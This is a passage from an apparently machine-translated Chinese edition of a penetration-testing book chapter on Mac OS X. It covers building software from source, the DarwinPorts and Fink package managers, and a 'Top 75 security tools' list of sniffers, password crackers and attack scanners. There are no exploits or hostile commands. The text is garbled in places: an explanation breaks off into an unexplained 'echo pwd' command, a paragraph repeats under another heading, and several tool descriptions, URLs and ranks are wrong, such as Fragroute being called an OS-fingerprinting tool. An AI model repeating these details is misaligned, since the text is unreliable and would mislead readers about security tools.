

需要记住的是，XWindows 程序必须从 xterm 窗口运行，而不是从 Terminal 窗口运行。正如我们在本章后面将看到的，更复杂的 XWindows 程序（如 Ethereal）可以从 xterm 运行。

## 在 OS X 上编译程序

虽然有很多不同的语言可以考虑，如 C 或 C++，但大多数开源应用程序都是用 C 或 C++ 编写的。获取移植后的源码或二进制文件通常更好，正如我们在下一节将讨论的，但大多数标准的源代码可以在 OS X 上良好地安装和运行。尽管我们无法涵盖 OS X 上编译的所有细节，但大多数“友好型”应用程序只需要非常简单的步骤：

1. 下载源代码。
2. 使用 StuffIt 或类似的程序解压源代码。
3. 进入解压创建的目录。
4. 从命令行运行 `configure` 脚本。
5. 运行 `make`（假设 `configure` 成功）。
6. 运行 `make install`（假设 `make` 命令执行成功）。

在许多情况下，此过程将产生可执行二进制文件，以及支持性文档（通常为 man 页面）和各种支持和配置文件。然而，生活并不总是简单，某些软件在移植（特定的程序修改）之前才能在特定平台上安装。

## 编译与移植

程序员分发开源软件代码有许多选择。他可以选择分发不带任何安装文件的源码，分发带 Makefile 的源码以辅助编译复杂代码，或者分发带有 `configure` 脚本的源码，用户运行该脚本来创建 Makefile。在我们简要查看编译和安装软件的优缺点之前，


第一种方案极其原始，除了非常简单的软件外，它可能会在终端用户的系统上引起不可预见的兼容性问题。如果出现这些问题，用户可能无法编译或运行该软件。分发带有 `Makefile` 的源代码（由 `make` 程序读取，该程序从软件的根目录下执行）无疑对终端用户有所帮助，特别是对于大型或复杂的程序，但取决于用户的系统配置，仍然可能出现不兼容的情况。目前，程序员分发与许多操作系统环境广泛兼容的开源软件的最佳方法是使用 `autoconf` 程序。该程序会创建 `configure` 脚本，这些脚本在用户系统上执行时，会自动检测操作系统环境，并尝试为该软件的安装创建一个定制的 `Makefile`。如果一个程序随带了 `configure` 脚本，那么该软件最终在 Mac OS 上编译并运行的几率相当大。不过，你的具体情况可能会因人而异。

移植是指通过调整和修改软件以使其在特定平台上运行的过程。这个过程通常会导致程序的纯净安装，在大多数情况下，经验丰富的程序员会在将代码作为包分发之前，在特定平台上对代码进行检查、修改和测试。移植后的软件以源码或二进制格式提供。源码包经过修改可以干净地编译，而二进制包则已准备好运行。源码包通常是最新的版本。无论你选择哪种格式，软件可能都需要额外的软件来满足某些依赖关系。包管理器在为你自动化这一过程方面做得很好（正如我们将在下一章中看到的），但使用多个包管理器可能会变得有些混乱，尤其是当你使用不同的包管理器安装同一个特定程序的多个版本时。在接下来的章节中，我们将开始介绍两个流行的包管理器，并讨论它们如何简化这一过程。

# 在 Mac OS 上安装移植后的软件

在深入讨论下载和安装移植代码的细节之前，让我们先来看一个失败了的源码安装案例。了解从源码安装程序会有多么困难，将帮助你理解为什么移植是一个更受青睐的方法。

## 为什么要移植：一次失败的源码安装

在这个示例中，我们将尝试安装 Fyodor 编写的 `nmap` 端口扫描器。这个程序是必不可少的，但在某些情况下，源码发行版很难安装。


# 第 5 章 针对渗透测试者的 Mac OS X

首先，我们将从 insecure.org 下载 `.tar.gz` 或 `.tgz` (tar gzip) `.bz` (bzip) 格式的发行文件。例如，nmap 3.75 版本的 gzip 文件将是 `nmap-3.75.tgz`。然后将使用命令 `tar -xvzf nmap-3.75.tar` 对文件进行解压和解包。这将创建一个名为 `nmap-3.75` 的子目录，可以通过命令 `cd nmap-3.75` 进入该目录。该 `nmap` 的 `README` 说明，在 Mac OS X 上必须在 `./configure` 命令的末尾添加 `CPP=/usr/bin/cpp`，因此需要执行 `./configure CPP=/usr/bin/cpp` 来创建 `Makefile`，这是下一步所必需的。一旦 `configure` 命令最终完成，在执行 `make` 命令之后就是 `make install`。然而，在 `make` 过程进行几分钟后，产生了一个难看的错误信息：

```
++ -lbase -insock/src/ -o nmap main.o nmap_targets tcpip.o nmap_error.o
utils.o idle_scan.o ossan.output.o scan_engine.o timing.o charpool.o
services.o protocols.o nmap_rpc.o portlist.o NmapOpts.o Target.o
FingerprintResults.o scan.o NmapOutputTable.o MACLOOKup.o -lbase -insock
libpcap -lssl -lcrypto
/usr/bin/ld: can't locate file -lssl -lstdc++
collect2: [nmap] returned 1 exit status
make: *** Error 1
j0pb12:/Desktop/nmap-3.75 johnnylong$
```

任何合格的 Google 用户都会进行几次查询来定位问题所在，在经历了很多挫败后，他们发现并没有明显的解决方案可以解决这个问题。这种经历想起了许多 UNIX 和 Linux 用户在安装软件时面临的情况，这完全不是 Mac 用户对系统的预期。事实上，这种为了让某个软件运行而进行的数字化的笨拙，正是促使许多最初使用 Mac 的原因。软件移植消除了这一过程中的猜测，并将那些糟糕的技术细节离用户远远、非常远。

在接下来的章节中，我们将开始讨论包管理器。这些程序消除了安装开源软件时的大量猜测，如图 5.7 所示，包管理器能够通过一个简单的命令安装 `nmap 3.75`。这比下载、编译和排查源码故障要好得多，尤其是如果你不在意拥有绝对最新的软件版本的话。


# 5.7 无痛安装 nmap — bash


```
$pb17s-powerbook-g4-17:~/sw/bin PB17$ sudo /sw/bin/apt-get install nmap
Reading Package Lists... Done
Building Dependency Tree... Done
The following packages will be installed:
lib2-data gtk-data nmap
The following NEW packages will be installed, 0 upgraded, 0 remove.
Need to get 8259KB of archives.
After this operation, 2483KB will be used.
3 packages newly installed, 0 not to remove.
Do you want to continue? [Y/n] y
Reading package lists...
Building dependency tree... Done
Reading state information... Done
The following packages will be installed:
lib2-data (2.2.1-1) gtk-data (2.0.32-1) nmap (3.75-1)
Fetching lib2-data...
Fetching gtk-data...
Fetching nmap...
Metadata download...
Metadata retrieved.
Unpacking lib2-data (2.2.1-1)...
Unpacking gtk-data (2.0.32-1)...
Unpacking nmap (3.75-1)...
Setting up lib2-data (2.2.1-1)...
Setting up gtk-data (2.0.32-1)...
Setting up nmap (3.75-1)...
```

应该将用户名更改为你自己的用户名。与其手动更新此文件，不如考虑使用包含单行 shell 的快捷方式，并创造性地使用反引号（键盘左上角波浪键下方的字符）。首先，使用 `cd ~/Documents` 进入你的主目录，然后执行此单行 shell 指令：

```bash
echo pwd >> /opt/local/etc/ports/sources.conf
```

一旦该文件被修改，就可以可以使用命令 `/opt/local/bin/port list` 测试 DarwinPorts，它将列出可用端口。如果产生错误信息，请务必检查 `/opt/local/etc/ports/sources.conf` 中文件的语法是否正确。顺便说，你可以在 bash 中通过 `export MANPATH=$MANPATH:/opt/local/man` 或在 tsh 中通过 `setenv MANPATH${MANPATH}:opt/local/man` 将 `/opt/local/man` 添加到 MANPATH 中，这样 man 程序就能知道 DarwinPorts 的存在。设置完成后，你就可以通过 `man port` 使用 man 程序查阅更多关于 DarwinPorts 的信息。虽然这看起来有点麻烦，但在开始早期（有趣的）部分之前，DarwinPorts 只需要设置和配置一次。

# 第 5 章 · 渗透测试者的 Mac OS X

配合 DarwinPorts 软件包使用的主要工具是 `port`，它接受多个选项：

- **list**: 此选项将列出可以通过 DarwinPorts 安装的可用端口。
- **search**: 这将使用提供的字符串搜索端口。
- **install**: 此选项将按名称安装一个端口。DarwinPorts 将为每个安装的应用程序检查并安装任何所需的依赖项。
- **clean**: 此选项将删除构建过程中使用的所有文件，尽管可以通过向 port 命令添加 `-c` 选项来自动完成此操作。
- **uninstall**: 此选项将按名称卸载端口。
- **upgrade**: 如果有可用更新，这将升级端口。

使用 `port` 程序安装软件非常简单。确保你已经从 OpenDarwin 服务器下载了最新且最全的端口集合：

```bash
$ sudo port selfupdate
```

**list** 选项将向你显示可以安装的端口列表，但如果你已经知道想要安装的端口名称，可以简单地使用 **install** 选项进行安装。例如，要安装 Ruby 面向编程语言，只需运行：

```bash
$ sudo port install ruby
```

保持已安装软件的最新发布版本也是很容易的。你可以使用如下命令更新所有的端口：

```bash
$ sudo port -a upgrade
```

或者，你可以使用如下命令更新单个软件包（如 Ruby）：

```bash
$ sudo port upgrade ruby
```

尽管初始安装和配置有些繁琐，但通过 DarwinPorts 安装软件仍然比从源码安装要容易得多。然而，就像生活中的大多数事情一样，有选择是极好的。DarwinPorts 的主要替代方案是 Fink。让我们来看看 Fink。

## Fink

Fink 项目 (http://fink.sourceforge.net) 同样旨在通过类似于 OpenDarwin 项目的方法将丰富的开源软件带到 Mac OS X 上：即端口移植（porting）。Fink 在后台使用 Debian 工具（如 `apt-get` 和 `dpkg`），并允许下载二进制软件发行，这意味着运行软件不需要构建或编译。通常情况下，二进制发行比源码发行版旧，但请记住二进制发行版的安装稍微简单、更快，而且通常遇到的技术问题比源码包少。无论如何，Fink 都让在 OS X 上安装开源软件变得轻而易举。与大多数包管理器一样，Fink 提供了安装、升级和删除包的能力，通过图形化用户界面，Fink Commander 软件增加了点击操作的易用性。

为了开始使用 Fink，必须先下载并安装软件。安装过程非常简单。首先，从 http://download 下载安装程序磁盘镜像。双击图标挂载磁盘镜像，然后双击里面的包。安装完成后，Fink 将运行 `pathsetup` 实用程序，并提示你输入登录密码。一旦 `pathsetup` 完成，Fink 即安装完成，可以通过是否存在 `/sw/bin` 目录来判断。

## 全部杀掉它们！

包管理器确实很好，但你最终需要对某些软件的安装进行故障排除。你首先需要确定的是该软件是否是通过包管理器安装的。为此目的最方便的命令之一是 `which`。在终端运行 `which`，它将报告包含 man 程序的目录名称。如果你有 Bug 的程序安装在 `/sw/bin` 中，那么它是通过 Fink 或 `apt-get` 安装的。如果你想备份（或销毁）所有通过 Fink 安装的内容，只需查看 `/sw` 目录即可。Fink 在此目录之外不安装任何内容。DarwinPorts 的操作类似，将所有文件放在一个隔离的 `/opt/local` 目录中。

## 使用 apt-get 安装二进制包

包管理器确实很好，但你最终需要对某些软件的安装进行故障排除。你首先需要确定的是该软件是通过包管理器安装的。为此目的最方便的命令之一是 `which`。在终端运行 `which`，它将报告包含 man 程序的目录名称。如果你有 Bug 的程序安装在 `/sw/bin` 中，那么它是通过 Fink 或 `apt-get` 安装的。如果你想备份（或销毁）所有通过 Fink 安装的内容，只需查看 `/sw` 目录即可。Fink 在此目录之外不安装任何内容。DarwinPorts 的操作类似，将所有文件放在一个隔离的 `/opt/local` 目录中。随 Fink 提供的两个程序 `apt-get` 和 `fink` 可用于安装。正如我们已经通过 `apt-get` 看到的那样，最常用的功能列举如下：

- **install**: 配合包名称运行时，`apt-get` 将下载并安装。
- **upgrade**: 如果有新版本，此选项将升级任何已安装软件包。
- **remove**: 此选项将移除选定的软件包，需要该包的名称。

## 图 5.8 apt-get 操作

```bash
user12:johnylong$ sudo apt-get install ircii
读取软件包列表...
构建依赖树...
将安装新软件包：
ircii
0 个升级，1 个新安装，0 个删除。
需要获取 708kB 的存档。解压后将使用 4153kB。
获取 http://download.sourceforge.net/release/main/ircii 2003-1 [708kB]
在30秒内获取了708kB (23.6kB/s)
正在选择已选软件包 ircii。
（读取数据库 ...4208个文件和目录）
正在解压 ircii (来自 ...ircii_2003-1-darwin-powerpc.deb)...
正在设置 ircii (2003-1) ...
user12:johnylong$ 
```

## 使用 fink 安装源码包

除了允许 `apt-get` 可以安装二进制包外，fink 工具还允许安装源码包。在大多数情况下，包的源码安装比二进制安装要新得多，而且过程同样简单。源码安装需要编译器（通常是 gcc），它在安装 Apple 开发工具时与其他开发工具一起安装。尽管手动安装源码包有些困难，但 Fink 在后台执行了大部分繁重工作，为用户省去了手动安装的大部分痛苦。fink 工具有几个选项，包括：

- **list**: 这将列出可以源码安装的包。运行 `fink list` 将产生包、版本和描述的列表，以及每个包的安装状态，显示在输出的第一列。安装状态将显示为未安装（空白）、已安装（用 i 表示）或已安装但不是最新（用括号中的 i 表示）。
- **describe**: 对单个包提供更详细的查看。使用包名调用（例如 `fink describe ircii`），fink 将显示详细描述、版本号、网站以及工具维护者的姓名和地址。
- **apropos**: 此选项将扫描包含特定指定搜索字符串的包列表。例如，运行 `fink apropos calc` 将列出所有在名称或描述中包含字符串 `calc` 的包。
- **install**: 此选项需要包名，并在安装该包之前，会先检查（并满足）工具对其他软件包和库的任何依赖关系，然后安装该包。Fink 在下载外部依赖之前会要求进行验证，然后继续下载、编译、安装和配置每个依赖项，这通常会导致工具的平滑安装。在某些情况下，可能会产生错误信息，但通常安装会顺利进行，并将编译好的工具存入 `/sw/bin` 目录中。例如，要安装 `wcalc` 包，只需运行 `fink install wcalc`。这需要 root 权限，尽管 Fink 会自动通过 sudo 运行命令，并通常会在继续安装之前生成 root 密码提示。
- **remove**: 这将删除指定的包。例如，当运行 `fink remove 3dpong` 时，Fink 将删除 3dpong 程序。这不会删除配置文件。
- **purge**: 这将删除指定的包以及任何相关的配置文件。
- **update**: 这将更新指定的包。可以在命令行上提供多个包。例如，`fink update 3dpong xmms` 将同时更新 3dpong 包和 xmms 包。

## 使用 Fink Commander 安装源码或二进制包

Fink Commander 是一个用于 apt-get 和 Fink 的非常棒图形化前端。它可以通过 Fink 的二进制分发版（在 FinkCommander 文件夹中）获取，也可以从 http://finkcommander.sourceforge.net 单独下载。由于采用了图 5.9 所示的点点击式界面，Fink Commander 也许是安装、更新和删除软件包最简单的方法。

## 图 5.9 Fink Commander



Fink Commander 界面非常直观，每个包单独占一行显示。当某个包被高亮时，界面顶部的按钮将变为激活，允许执行各种操作。主要的包操作如图 5.10 所示。

## 图 5.10 Fink Commander 的操作按钮


www.syngress.com

## 第 5 章 面渗透测试者的 Mac OS X

从左到右，这些按钮分别允许安装二进制或源码包、删除包、更新包描述、取消当前操作、显示包信息以及列出包包含的文件。安装二进制包的过程非常简单，只需高亮包名并点击左侧第一个按钮，或者从 Fink Commander 菜单中选择 Binary | Install。Fink Commander 可以与 fink 和 apt-get 命令互换使用而不会产生冲突。所有这些工具都读写同一个内部包列表。这使得每个工具都能感知每个包的状态。

总而言之，每个包管理系统都有其自己的优缺点，用户依赖 DarwinPorts、Fink 和 apt-get 来安装移植软件的情况并不罕见。在大多数情况下，这取决于用哪种方法能成功安装软件。尽管 Mac OS 的老手无疑会怀念原生 Mac 软件流畅的外观和体验，但移植的开源软件可以极大地扩展真正的 Mac OS X 黑客的工具箱。

现在我们已经完成了配置开发环境和各种包管理器这一有些草率的过程，是时候尽乐趣了！在下一节中，我们将探索一些在 Mac 上运行非常完美的工具！

## 使用“前 75 安全工具”

该列表由 Fyodor 创建并维护，可从 www.insecure.org/tools.html 获取，“前 75 安全工具”列表已成为必备工具的行业标准。尽管近 20 个工具仅运行在 Windows 平台（并因此在 Virtual PC 等程序下运行良好），但剩余工具的 70% 已运行在或已移植到 Mac OS X，随着越来越多的工具被调整为在 Mac 上无缝运行，这个数字仍在增加。本节将列出“前 75”列表中运行在 OS X 上的工具。大部分信息是直接摘录自列表本身，工具作者或开发团队提供了大部分描述。除了 Fyodor 提供的信息外，每个工具都被分配了一个描述其功能的分类，并且还列出了关于如何在 OS X 上运行该工具的信息。列表中的每个工具要么是 OS X 原生的（意味着它是作为操作系统的一部分包含的，或无需修改即可运行），要么是通过 DarwinPorts 或 Fink 项目移植到 OS X 的。如果工具已移植，则列出了每个工具的当前可用版本（打印时版本）。


## 分类：攻击（网络）

### 名称：Dsniff

**排名**：7

**URL**：http://naughty.monkey.org/~dugsong/dsniff/

**Mac 可用性**：DP 2.3, 2.4b1

**描述**：一套强大的网络审计和渗透测试工具包。

这套由 Du Song 设计且工程良好的工具包包含了许多工具：dsnarf, mailsn, urlarf, webspy（甚至在 Virtual PC 下运行良好），arpsnoof, dnsspoof, macof（利用安全层 (HTTPS) 的漏洞）。mitm 和 webmitm 实现了针对安全外壳 (SSH) 的攻击。

### 名称：Ettercap

**排名**：9

**URL**：http://ettercap.sourceforge.org/

**Mac 可用性**：DP 0.6, 0.7.1, Fink 0.7

**描述**：Ettercap 是一个针对局域网的终端嗅探器、拦截器和记录器。

在存在交换局域网 (LAN) 的情况下，Ettercap 是一个针对局域网的终端嗅探器、拦截器和记录器。它支持插件模式。

### 名称：Nemesis

**排名**：40

**URL**：www.packetfactory.net/projects/nemesis/

**Mac 可用性**：DP 1.4beta3, Fink 1.4

**描述**：简化包注入。


Nemesis 项目设计为用于 UNIX/Linux（现在还有 Windows）的命令行可移植互联网协议 (IP) 栈。该套件按协议划分，并允许通过简单脚本对注入的数据流。如果你喜欢 Nemesis，可能也想看看 hping2。它们互为补充。

## 分类：攻击（扫描器）

### 名称：Nessus

**排名**：1

**URL**：www.nessus.org

**Mac 可用性**：DP 2.0.12, Fink 2.2.4

**描述**：领先的开源漏洞评估工具。

Nessus 是适用于 Linux、BSD、Solaris 和其他 Unix 的远程安全扫描器。它基于插件，具有 GTK 界面，并执行超过 1200 项远程安全检查。它允许以超文本标记 (HTML)、扩展标记语言 (XML)、LaTeX 和美国信息交换代码（ASCII）文本生成报告，并建议解决方案。

## 分类：攻击（Web）

### 名称：Whisker

**排名**：10

**URL**：www.wiretrip.net/rfp/p/doc.asp?id=21&iface=2

**Mac 可用性**：原生 (Perl)

**描述**：Rain.Forest.Puppy 的 CGI 漏洞扫描器和库。

Whisker 是一个允许测试超文本传输协议 (HTTP) 服务器许多已知漏洞的扫描器，特别是危险通用网接口。Libwhisker 是 Whisker 使用的 Perl 库，允许创建自定义的 HTTP 扫描器。如果你希望审计不仅是 Web 服务器，请查看 Nessus。

### 名称：Nikto

**排名**：16

**URL**：www.cirt.net/code/nikto.shtml

**Mac 可用性**：原生 (Perl)

**描述**：更全面的 Web 扫描器。


# Nikto

Nikto 是一个 Web 服务器扫描器，用于在 200 多台服务器上查找 2000 个潜在的危险文件/CGI 和问题。它使用了 `LibWhisker`，但更新频率比 Whisker 本身频繁。

## 分类：加密

### SSH

- **Rank**: 12
- **URL**: `www.openssl.com/`
- **Mac availability**: native, DP 3.8.1p1, Fink 4.0p1
- **Description**: 访问远程计算机的安全方法。

SSH 是一个用于在远程机器上登录或执行命令的程序。它在不安全的网络上为两个不受信任的主机之间提供安全的加密通信。X11 连接和任意传输控制协议/互联网协议 (TCP/IP) 端口也可以通过安全通道进行转发。它旨在替代 `rlogin`、`rsh` 和 `rcp`，并可用于为 `rdist` 和 `rsync` 提供安全的通信通道。OpenSSH 隶属于 OpenBSD 项目，尽管其便携版本运行在大多数 UNIX 系统上。

### GnuPG

- **Rank**: 30
- **URL**: `www.gnupg.org/`
- **Mac availability**: DP 1.4.0, Fink 1.4.0
- **Description**: 使用高级加密保护您的文件和通信。

PGP 是由 Phil Zimmermann 的著名加密程序，可帮助您的数据免受窃听者和其他风险。GnuPG 是备受推的 PGP 标准开源实现（实际的可执行文件名为 `gpg`）。虽然 GnuPG 总是免费的，但 PGP 在某些用途下需要付费。

### OpenSSL

- **Rank**: 38
- **URL**: `www.openssl.org`
- **Mac availability**: DP 0.9.7e, Fink 0.9.6m
- **Description**: 领先的 SSL/TLS 加密库。

OpenSSL 项目是一个协作项目，旨在开发一个健壮、商业级、功能全的开源工具包，实现 SSL v2/v3 和传输层安全协议 (TLS v1) ，以及一个全强度的通用加密库。该项目由全球志愿者社区管理，他们利用互联网进行通信、规划和开发 OpenSSL 工具包及其相关文档。

### stunnel

- **Rank**: 46
- **URL**: `www.stunnel.org/`
- **Mac availability**: DP 4.0.5, Fink 4.10
- **Description**: 通用的 SSL 加密封装器。

stunnel 程序设计用于在远程客户端与本地 (inetd 可启动) 或远程服务器之间作为 SSL 加密封装器。它可以通过如邮局协议 v2 (POP)、邮局协议 v3 (POP3) 和互联网消息访问协议 (IMAP) 服务器等 inetd 守护进程在不更改程序代码的情况下添加 SSL 功能。它将使用 OpenSSL 或 SSLay 库协商 SSL 连接。

## 分类：防御

### Snort

- **Rank**: 3
- **URL**: `www.snort.org`
- **Mac availability**: DP 2.2.0, Fink 2.3.3
- **Description**: 面大众的免费入侵检测系统 (IDS)。

Snort 是一个轻量级网络 IDS，能够在 IP 网络上执行实时流量分析和数据包记录。它可以执行协议分析、内容搜索/匹配，并用于检测各种攻击和探测，例如缓冲区溢出、隐藏端口扫描、CGI 攻击、SMB 探测、操作系统指纹识别等。Snort 使用灵活的基于规则的语言来描述它应该收集或通过的流量，并配备了模块化检测引擎。许多人还建议将入侵数据库分析控制台 (ACID) 与 Snort 使用。

### Honeyd

- **Rank**: 43
- **URL**: `www.citi.umich.edu/u/provos/honeyd/`
- **Mac availability**: DP 0.4
- **Description**: 自己的个人蜜罐网。

Honeyd 是一个在网络上创建虚拟主机的小型守护进程。这些主机可以配置为运行任意服务，它们的 TCP 特性可以调整，使其看起来在运行某些版本的操作系统。Honeyd 允许单个主机在局域网上声称多个地址以进行网络模拟。可以对虚拟机进行 ping，或对其进行路由追踪 (traceroute)。可以根据简单的配置文件模拟虚拟机上的任何类型的服务。也可以将服务代理到另一台机器而不是模拟它们。由于法律原因，该网页已关闭，但 0.5 版本的 tar 包仍可在 `www.citi.umich.edu/u/provos/honeyd/honeyd-0.5.tar.gz` 获取。

### TCPwrappers

- **Rank**: 52
- **URL**: `ftp://ftp.porcupine.org/pub/security/index.html`
- **Mac availability**: DP 7.6
- **Description**: 一经典的基于 IP 的访问控制和日志记录机制。

### Bastille

- **Rank**: 57
- **URL**: `www.bastille-linux.org/`
- **Mac availability**: Native
- **Description**: 用于 Linux、Mac OS X 和 HP-UX 的加固脚本。

## 分类：防御/取证

### lsof

- **Rank**: 41
- **URL**: `ftp://ftp.porcupine.org/pub/security/index.html`
- **Mac availability**: DP 4.7
- **Description**: 列出打开文件的 Unix 特有诊断工具。

## 分类：逃逸

### Fragroute

- **Rank**: 48
- **URL**: `www.insecure.org/fragroute/`
- **Mac availability**: DP 1.2
- **Description**: 用于确定远程主机操作系统的工具。

### std

- **Rank**: 22
- **URL**: N/A
- **Mac availability**: Native
- **Description**: 获取路由追踪数据并绘制在地图上。

### XProbe2

- **Rank**: 33
- **URL**: `www.insecure.com/Xprobe/`
- **Mac availability**: DP 0.3
- **Description**: 主动指纹识别工具。

### dig

- **Rank**: 65
- **URL**: `www.isc.org/products/BIND/`
- **Mac availability**: Native
- **Description**: 随 Bind 提供的便捷域名系统 (DNS) 查询工具。

## 分类：足迹

### visualroute

- **Rank**: 69
- **URL**: `www.visualroute.com/index.html`
- **Mac availability**: Native
- **Description**: 获取路由追踪数据并绘制在地图上。

## 分类：监控（嗅探）

### Ethereal

- **Rank**: 2
- **URL**: `www.ethereal.com`
- **Mac availability**: DP 0.10.8, Fink 0.10.12
- **Description**: 嗅探连接互联网的胶水。

### TCPdump

- **Rank**: 5
- **URL**: `www.tcpdump.org`
- **Mac availability**: Native
- **Description**: 用于网络监控和数据采集的经典嗅探器。

### Kismet

- **Rank**: 17
- **URL**: `www.kismetwireless.net/`
- **Mac 可用性**: Fink 3.0.1
- **描述**: 强大的无线嗅探器。

Kismet 是一款 802.11b 网络嗅探器和网络分析器。它能够使用无线网卡进行嗅探，通过用户数据报协议 (UDP)、地址解析协议 (ARP) 和动态主机配置协议 (DHCP) 包自动检测网络 IP 块，通过 Cisco 发现协议列出 Cisco 设备，弱加密数据包日志以及与 Ethereal-TCP 兼容的数据包转储文件。它还具备在下载的地图或提供的图像文件上绘制检测到的网络和估计网络范围的能力。

### ngrep

- **排名**: 35
- **URL**: `www.packetfactory.net/projects/ngrep/`
- **Mac 可用性**: DP 1.4.2, Fink 1.4.0
- **描述**: 方便的数据包匹配与显示。

ngrep 旨在旨在提供 grep 的大部分常用功能，并将其应用于网络层。grep 是一个感知 pcap 的工具，允许你指定扩展的正则表达式或十六进制表达式来匹配数据包的负载。它识别跨以太网、点对点协议 (PPP)、串口链路互联网协议 (SLIP)、光纤分布式数据接口 (FDDI)、环形网络和空接口的 TCP、UDP 和 ICMP，并以与 TCPdump 和 snoop 等更常见的数据包嗅探工具相同的方式理解 bpf 过滤器逻辑。

### ntop

- **排名**: 39
- **URL**: `www.ntop.org/`
- **Mac 可用性**: DP 3.0, Fink 1.1
- **描述**: 网络流量使用监控。

ntop 显示网络使用情况与 top 显示进程的方式类似。在交互模式下，它在用户的终端上显示网络状态。在 Web 模式下，它作为一个 Web 服务器运行，创建网络状态的 HTML 导出。它配备了 NetFlow/sFlow 发送/收集器、一个用于创建以 ntop 为中心的监控应用的 HTTP 客户端接口以及用于持久存储流量统计数据的 RRD。

### etherape

- **排名**: 64
- **URL**: `http://etherape.sourceforge.net/`
- **Mac 可用性**: Darwin 0.9.0
- **描述**: 一个以以太网为模型的 UNIX 图形网络监控器。

### arpwatch

- **排名**: 75
- **URL**: `www-nrg.ee.lbl.gov/`
- **Mac 可用性**: DP 2.1a11, Fink 2.1a11
- **描述**: 跟踪以太网/IP 地址对，并可以检测某些异常活动（如使用 dsniff）。

### tcppreplay

- **排名**: 71
- **URL**: `http://tcppreplay.sourceforge.net/`
- **Mac 可用性**: Fink 2.3.5
- **描述**: 以任意速度重放保存的 tcpdump 或 snoop 工具。

## 分类：多用途

### netcat

- **排名**: 4
- **URL**: `http://www.atstake.com/research/tools/network_utilities/`
- **Mac 可用性**: 原生 (Native)
- **描述**: 网络瑞士军刀。

这是一个简单的 UNIX 工具，通过 TCP 或 UDP 跨网络连接读取和写入数据。它被设计成一个可靠的后端工具，可以直接使用，也可以轻松地被其他程序和脚本驱动。同时，它还是一个功能丰富的网络调试和探索工具，因为它可以创建你需要的几乎任何类型的连接，并具有许多有趣的内置功能。

## 分类：密码破解

### john

- **排名**: 11
- **URL**: `http://www.openwall.com/john/`
- **Mac 可用性**: DP 1.6
- **描述**: 一个极其强大、灵活且快速的多平台密码哈希破解器。

John the Ripper 是一款快速的密码破解器，目前支持多种变体 UNIX（官方支持 11 种，不包括不同架构）、DOS、Win32、BeOS 和 OpenVM。它的主要目的是检测 UNIX 密码。它支持在各种 UNIX 变体中常见的各种 crypt(3) 密码哈希，以及 Kerberos AFS 和 Windows NT/2000/XP LM 哈希。其他两类哈希类型可以通过社区贡献的补丁进行添加。

### L0phtCrack

- **排名**: 19
- **URL**: `http://www.atstake.com/research/lc/`
- **Mac 可用性**: DP (l0phtcrack) 1.5
- **描述**: Windows 密码审计与恢复应用。L0phtCrack 尝试从独立的 Windows NT/2000 工作站、网络服务器、主域控制器或 Active Directory 获取的哈希（在获得适当权限的情况下）破解 Windows 密码。在某些情况下，它可以从线路上嗅探哈希。它有许多生成密码猜测的方法（字典攻击、暴力破解等）。L0phtCrack 目前每台机器花费 350 美元，且不提供源代码。预算紧张的公司可能会查看 John the Ripper、Cain & Abel 和 pwdump3。

### Crack

- **排名**: 66
- **URL**: `http://www.users.dircon.co.uk/~crypto/`
- **Mac 可用性**: DP (cracklib) 2.7
- **描述**: Alec Muffett 的经典本地密码破解器。

## 分类：密码破解（远程）

### hydra

- **排名**: 50
- **URL**: `http://www.thc.org/releases.php`
- **Mac 可用性**: DP 4.4
- **描述**: 并行网络身份验证破解器。

该工具允许对网络登录系统进行快速字典攻击，包括文件传输协议 (FTP)、POP3、IMAP、Netbios、Telnet、HTTP 认证、轻量级目录访问协议 (LDAP)、网络新闻传输协议 (NNTP)、VNC、ICQ、Socks5、PCNFS 等。它包含 SSL 支持，并且显然现在是 Nessus 的一部分。与 Amap 一样，此版本来自 THC (`www.thc.org`) 的优秀团队。

## 分类：编程

### Perl, Python

- **排名**: 36
- **URL**: `www.perl.org`
- **Mac 可用性**: 原生 (PERL)
- **描述**: 可移植通用脚本语言。

虽然此页面有很多安全工具，但当需要更常见的功能时，编写自己的（或修改现有）的能力很重要。Perl 和 Python 让这一切变得简单。

### libnet

- **排名**: 5
- **URL**: `www.packetfactory.net/libnet/`
- **Mac 可用性**: DP 1.0, Fink 1.1
- **描述**: 一种高级应用程序接口 (API)，允许程序员构造和注入数据包。

## 分类：扫描

### hping2

- **排名**: 6
- **URL**: `www.hping.org/`
- **Mac 可用性**: DP hping3, Fink 3
- **描述**: 类似于增强版 ping 的网络工具。

hping 组装并发送自定义的 ICMP、UDP、TCP 数据包并显示响应。它的灵感来自 ping 命令，但对探测提供了更多的控制。

### fping

- **排名**: 56
- **URL**: `www.fping.com/`
- **Mac 可用性**: DP 2.4, Fink 2.4
- **描述**: 一个并行 ping 程序。

